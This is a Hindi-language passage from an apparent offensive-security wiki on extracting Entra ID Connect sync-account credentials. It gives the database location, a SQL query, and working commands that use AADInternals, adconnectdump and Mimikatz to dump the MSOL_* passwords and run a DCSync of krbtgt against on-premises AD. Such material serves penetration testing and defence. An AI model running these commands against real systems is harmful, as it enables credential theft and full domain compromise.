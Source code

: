 ```bash
```
### पासवर्ड ढूंढना

**`MSOL_*`** उपयोगकर्ता (और यदि बनाया गया हो तो **Sync\_\*** उपयोगकर्ता) के पासवर्ड **SQL सर्वर में** संग्रहीत होते हैं जहाँ **Entra ID Connect स्थापित है।** व्यवस्थापक उन विशेषाधिकार प्राप्त उपयोगकर्ताओं के पासवर्ड को स्पष्ट पाठ में निकाल सकते हैं।\
डेटाबेस `C:\Program Files\Microsoft Azure AD Sync\Data\ADSync.mdf` में स्थित है।

एक टेबल से कॉन्फ़िगरेशन निकालना संभव है, जिसमें एक एन्क्रिप्टेड है:

`SELECT private_configuration_xml, encrypted_configuration FROM mms_management_agent;`

**एन्क्रिप्टेड कॉन्फ़िगरेशन** **DPAPI** के साथ एन्क्रिप्ट किया गया है और इसमें **`MSOL_*`** उपयोगकर्ता के पासवर्ड ऑन-प्रेम AD में और **Sync\_\*** का पासवर्ड AzureAD में शामिल है। इसलिए, इनका समझौता करने से AD और AzureAD में प्रिवेस्क करने की संभावना होती है।

आप [इन क्रेडेंशियल्स को कैसे संग्रहीत और डिक्रिप्ट किया जाता है, इसका पूरा अवलोकन इस वार्ता में पा सकते हैं](https://www.youtube.com/watch?v=JEIR5oGCwdg).

### MSOL\_\* का दुरुपयोग
```bash
# Once the Azure AD connect server is compromised you can extract credentials with the AADInternals module
Install-Module -Name AADInternals -RequiredVersion 0.9.0 # Uninstall-Module AADInternals  if you have a later version
Import-Module AADInternals
Get-AADIntSyncCredentials
# Or check DumpAADSyncCreds.exe from https://github.com/Hagrid29/DumpAADSyncCreds/tree/main

# Using https://github.com/dirkjanm/adconnectdump
python .\adconnectdump.py [domain.local]/administrator:<password>@192.168.10.80
.\ADSyncQuery.exe C:\Users\eitot\Tools\adconnectdump\ADSync.mdf > out.txt
python .\adconnectdump.py [domain.local]/administrator:<password>@192.168.10.80 --existing-db --from-file out.txt

# Using the creds of MSOL_* account, you can run DCSync against the on-prem AD
runas /netonly /user:defeng.corp\MSOL_123123123123 cmd
Invoke-Mimikatz -Command '"lsadump::dcsync /user:domain\krbtgt /domain:domain.local /dc:dc.domain.local"'
```
> [!WARNING]
> पिछले हमलों ने अन्य पासवर्ड को समझौता किया ताकि `Sync_*` नाम के Entra ID उपयोगकर्ता से कनेक्ट किया जा सके और फिर Entra ID को समझौता किया जा सके। हालांकि, यह उपयोगकर्ता अब मौजूद नहीं है।

### Abusing ConnectSyncProvisioning_ConnectSync\_<id>

यह एप्लिकेशन बिना किसी Entra ID या Azure प्रबंधन भूमिकाओं के असाइन किए बिना बनाया गया है। हालांकि, इसमें निम्नलिखित API अनुमतियाँ हैं:

- Microsoft Entra AD Synchronization Service
- `ADSynchronization.ReadWrite.All`
- Microsoft पासवर्ड रीसेट सेवा
- `PasswordWriteback.OffboardClient.All`
- `PasswordWriteback.RefreshClient.All`
- `PasswordWriteback.RegisterClientVersion.All`
